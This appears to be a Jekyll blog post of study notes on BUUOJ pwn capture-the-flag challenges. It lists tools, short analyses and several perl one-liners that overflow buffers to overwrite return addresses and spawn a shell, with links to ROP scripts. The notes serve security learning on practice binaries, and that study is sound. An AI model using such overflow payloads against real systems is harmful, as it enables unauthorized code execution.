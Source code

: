 ```yaml
---
layout: post
title:  "信息安全学习笔记 - BUUOJ Pwn"
date:   2020-08-26 22:15:38 +0800
---
```



# BUUOJ PWN

## Requirements
1. python
   1. ropgadget, capstone, 
   2. pwntools
   3. LibcSearcher
2. nasm

## Prologue
1. file xxx
   1. arch, stripped?
2. checksec

## Problems

1. test_your_nc 
   1. ida system("/bin/sh");
   2. `perl -e 'print "ls\ncat flag\n"' | test_your_nc`
2. rip
   1. `system("/bin/sh")` found
   2. segfault??? _TODO_
3. warmup_csaw_2016
   1. amd64, C `gets` and `system("cat flag.txt")` found
   2. overwrite return address
   3. `perl -e 'print "A"x72 . "\x0d\x06\x40\x00\x00\x00\x00\x00\n"' | ./warmup_csaw_2016`
4. pwn1_sctf_2016
   1. x86, C `gets` and `'system("cat flag.txt")'` found
   2. overwrite return address
   3. `std::string`: the source replaces any appearance of `I` with `you` in string input
   4. `perl -e 'print "I"x20 . "\xef\xbe\xad\xde\x0d\x8f\x04\x08\n"' | ./pwn1`
5. ciscn_2019_n_1
   1. `perl -e 'print "A"x(0x30-4) . "\x00\x80\x34\x41\n"' | ./ciscn_2019_n_1`
6. [**post**]({{ site.url }}/2020/07/14/buuoj-pwn-ciscn_2019_c_1.html) ciscn_2019_c_1
7. [**ROP**]({{ site.url }}/assets/OGeek2019_babyrop.py) [OGeek2019]babyrop
   1. Bypass: `strncmp(a, b, 0)` always returns 0
8. ciscn_2019_en_2: the same as [ciscn_2019_c_1]({{ site.url }}/2020/07/14/buuoj-pwn-ciscn_2019_c_1.html)
9. [**ROP**]({{ site.url }}/assets/get_started_3dsctf_2016.py) get_started_3dsctf_2016:
   1. Peaceful exit ?
10. [**ROP**]({{ site.url }}/assets/5space_pwn5.py) [第五空间2019 决赛]PWN5:
   1. [**Format string exploit**](https://wooyun.js.org/drops/%E6%A0%BC%E5%BC%8F%E5%8C%96%E5%AD%97%E7%AC%A6%E4%B8%B2%E6%BC%8F%E6%B4%9E%E7%AE%80%E4%BB%8B.html)
11. [**ROP**]({{ site.url }}/assets/jarvisoj_level0.py) jarvisoj_level0
12. [**ROP**]({{ site.url }}/assets/r2t3.py) [BJDCTF 2nd]r2t3:
    1. Bypass: truncated string length: `uint8_t length = (uint8_t) strlen(input)`
13. [**ROP**]({{ site.url }}/assets/ciscn_2019_n_8.py) ciscn_2019_n_8
14. [**ROP**]({{ site.url }}/assets/not_the_same_3dsctf_2016.py) not_the_same_3dsctf_2016
    1. Or [mprotect(.bss)](https://zhuanlan.zhihu.com/p/141065867), read and shellcode _TODO_
15. [**ROP**]({{ site.url }}/assets/HarekazeCTF2019_baby_rop.py) [HarekazeCTF2019]baby_rop
16. [**ROP**]({{ site.url }}/assets/BJDCTF_2nd_one_gadget.py) [BJDCTF 2nd]one_gadget
    1. The [one_gadget](https://github.com/david942j/one_gadget) tool
17. [**ROP**]({{ site.url }}/assets/bjdctf_2020_babystack.py) bjdctf_2020_babystack
18. [**ROP**]({{ site.url }}/assets/ciscn_2019_n_5.py) ciscn_2019_n_5
    1.  libc: `http://ftp.osuosl.org/pub/ubuntu/pool/main/g/glibc/libc6_2.27-3ubuntu1_amd64.deb`
19. [**ROP**]({{ site.url }}/assets/ciscn_2019_s_3.py) [ciscn_2019_s_3](http://liul14n.top/2020/03/07/Ciscn-2019-s-3/)
    1.  Construct `"/bin/sh"` on stack
    2.  ROP via `__libc_csu_init()`
    3.  [x86_86 `syscall`](https://blog.packagecloud.io/eng/2016/04/05/the-definitive-guide-to-linux-system-calls)
    4.  Or, [`sigreturn()`](http://liul14n.top/2020/03/07/Ciscn-2019-s-3/)
